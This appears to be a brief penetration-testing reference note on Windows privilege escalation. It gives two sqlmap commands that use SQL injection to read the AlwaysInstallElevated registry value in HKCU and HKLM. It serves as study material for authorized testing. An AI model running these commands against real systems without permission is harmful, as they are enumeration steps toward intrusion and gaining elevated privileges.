 # Windows

Search Tag: #sqlmap #enumeration-and-discovery #privilege-escalation

TODO: For schedule task

- Enumerate [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Privilege Escalation/Windows/Host Privilege Escalation/Registry/AlwaysInstallElevated/01 - Manual|AlwaysInstallElevated]] for privilege escalation.

```
$ sqlmap -u <URL> --reg-read="HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"

$ sqlmap -u <URL> --reg-read="HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"
```
